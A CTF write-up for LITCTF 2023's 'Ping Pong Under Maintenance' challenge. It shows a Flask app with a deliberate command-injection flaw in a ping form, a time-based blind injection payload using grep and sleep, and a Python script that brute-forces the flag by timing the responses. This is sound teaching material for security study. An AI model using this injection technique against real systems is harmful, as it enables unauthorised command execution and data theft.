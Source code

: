 ```yaml
---
title: 2023 LITCTF - Ping Pong Under Maintenance
author: Gr33nM0nk3y
date: 2023-08-08 00:00:00 +0700
categories: [Write-ups, 2023_LITCTF]
tags: [Web Exploitation, write-ups]
---
```


* 90 solves / 158 points
* Author: eyangch

## Description

> The website seems to be under maintenance.

### Attached

[ping-pong-under-maintenance](http://34.27.167.72/dl/?web%2FPing+Pong_+Under+Maintenance%2Fping-pong-under-maintenance.zip=)

```py
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output='The service is currently under maintainence and we have disabled outbound connections as a result.')

```
{: file="pingpong.py" }

## Analyzation

In this challenge, we cannot see the output anymore. So we use time-based blind injection.

Use command
```
grep "LIT" flag.txt && sleep 5;
```

- If ```grep "LIT" flag.txt``` is correct, aka string ```"LIT"``` is in ```flag.txt``` content, the second command ```sleep 5``` will be executed, and it takes more time to return response.

## Solution

```py
import requests, string, time

ALPHABET = "}_" + string.ascii_lowercase + string.digits + string.ascii_uppercase
URL_PINGPONGUnderMaintenance = 'http://34.130.180.82:53558/' # change this link

HEADERS={
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5'
}

flag = "LITCTF{"
TEMPLATE_PAYLOAD = '; grep "{}" flag.txt && sleep 5;'

while flag[-1] != '}':
    for character in ALPHABET:
        print("char: %s" % character) # log the process.
        flag_tmp = flag + str(character)

        START_TIME = time.time()
        respond = requests.post(URL_PINGPONGUnderMaintenance, headers=HEADERS, data={'hostname': TEMPLATE_PAYLOAD.format(flag_tmp)})

        if time.time() - START_TIME > 5:
            flag = flag_tmp
            print("true: {}".format(flag)) # log the process.
            break

print(flag)

```
{: file="solution.py" }

The flag is
```
LITCTF{c4refu1_fr}
```